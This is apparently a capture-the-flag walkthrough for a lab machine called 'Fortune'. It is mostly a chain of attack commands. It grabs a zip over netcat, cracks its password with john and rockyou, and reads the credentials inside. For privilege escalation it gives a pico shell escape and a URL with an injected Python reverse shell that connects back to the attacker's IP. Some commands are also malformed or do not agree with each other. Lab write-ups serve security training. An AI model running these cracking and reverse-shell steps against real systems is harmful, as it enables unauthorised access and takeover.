 # Fortune
# Fortuna Path
1. `nc fortune.thm 3333 | base64 -d > test.zip`
2. `zip2john test.zip > for_john`
3. `john for_john --wordlist=/usr/share/wordlists/rockyou.txt`
4. `unzip test.zip`
5. `cat creds.txt`
6. `ssh fortuna@fortune.thm`
```
nc fortune.thm 3333 | base64 -d > test.zip && zip2john test.zip > for_john && john for_john --wordlist=/usr/share/wordlists/rockyou.txt && unzip test.zip&& cat creds.txt
```
### Priv. Esc.
#### Method 1
1. `pico -s /bin/sh` type `/bin/sh` and `CTRL+T`
#### Method 2
1. `cd /home`
2.  `while True; do bash ./lucky_shell`
3. `gobuster dir -w ~/Desktop/wordlists/wordlistex2.txt -u http://fortune.thm` *optional*
4. `nc -nlvp 7878` on kali
5. http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 on fortune



## Flags
1. /media/darts
2. /srv/blackjack
3. /lib/checkers
4. /usr/games/flag
5. /usr/local/games/flag
6. /geama/flag
7. /home/fortuna/Desktop/chess (thanks to mug3njutsu on discord for this)
